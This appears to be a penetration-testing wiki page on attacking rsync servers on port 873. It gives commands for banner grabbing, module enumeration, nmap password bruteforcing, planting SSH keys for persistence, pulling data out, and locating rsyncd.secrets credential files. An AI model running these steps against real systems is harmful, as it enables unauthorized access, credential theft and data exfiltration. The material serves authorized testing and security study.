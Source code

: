 ```yaml
---
description: Ports TCP 873
---
```


# Rsync

## Theory

**Rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File\_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File\_synchronization) [files](https://en.wikipedia.org/wiki/Computer\_file) between a computer and an external hard drive and across network. By default it run on port TCP 873

## Practice

### Enumeration

{% tabs %}
{% tab title="Connect to Rsync" %}
To initiate a connection with an rsync server, use the [rsync](https://rsync.samba.org/) command followed by the rsync URL.

```bash
# The URL format is `[rsync://][user@]host[:port]/module.``
rsync rsync://user@target_host/
```
{% endtab %}

{% tab title="Banner Grabbing" %}
You can use `Netcat` to find out what service is running and its version by looking at the welcome message it shows when you connect. This method is called Banner Grabbing.

```bash
nc -nv <IP> 873

# Expected output format
@RSYNCD: version
```
{% endtab %}

{% tab title="Modules" %}
You can use `Nmap` to check if there's an Rsync server on a target host like this:

```bash
nmap -p 873 <IP>
```

We can then **enumerate modules**. Thus is a crucial enumeration phase to understand the structure of the target rsync module and finding misconfigurations or sensitive information.

```bash
nmap -sV --script "rsync-list-modules" -p 873 target_host
```
{% endtab %}

{% tab title="Shared Folders" %}
Rsync modules represent directory shares and may be protected with a password. To list these modules:

```bash
rsync target_host::
```

For detailed enumeration of a specific module to see files and permissions:

```bash
rsync -av --list-only rsync://target_host/module_name
```
{% endtab %}
{% endtabs %}

### Exploiting

{% tabs %}
{% tab title="Bruteforce" %}
Be aware that some shares might be restricted to specific **credentials**, indicated by an **"Access Denied"** message. We can try to bruteforce the password using following command.

```bash
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
{% endtab %}

{% tab title="Misconfigured Modules" %}
Modules without proper authentication can be accessed by unauthorized users. This vulnerability allows attackers to read, modify, or delete sensitive data.

If a module is writable, and you have determined its path through enumeration, you can upload malicious files, potentially leading to remote command execution or pivoting into the network.
{% endtab %}
{% endtabs %}

### Post-Exploitation <a href="#post-exploitation" id="post-exploitation"></a>

{% tabs %}
{% tab title="Persistence" %}
Upload artifacts like modified scripts or binaries to maintain access:

```bash
rsync -av home_user/.ssh/ rsync://user@target_host/home_user/.ssh
```
{% endtab %}

{% tab title="Data Exfiltration" %}
Sensitive data identified during enumeration can be exfiltrated using rsync:

#### From Remote to Local&#x20;

We can sync a remote folder with a local folder.

```bash
rsync -avz rsync://<IP>:873/share_name /local/directory/
# OR
rsync -avz <IP>::share_name /local/directory/
```

#### From Local to Remote\*

We can sync our local folder with a remote folder.

```bash
rsync -av /local/directory/ <IP>::share_name
# OR
rsync -av /local/directory/ rsync://<IP>:873/share_name 
```
{% endtab %}

{% tab title="rsyncd.conf" %}
To locate the `rsyncd` configuration file and potentially find a secrets file containing usernames and passwords for `rsyncd` authentication, use the following command:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://hackviser.com/tactics/pentesting/services/rsync" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}
\*
{% endembed %}

{% embed url="https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/" %}
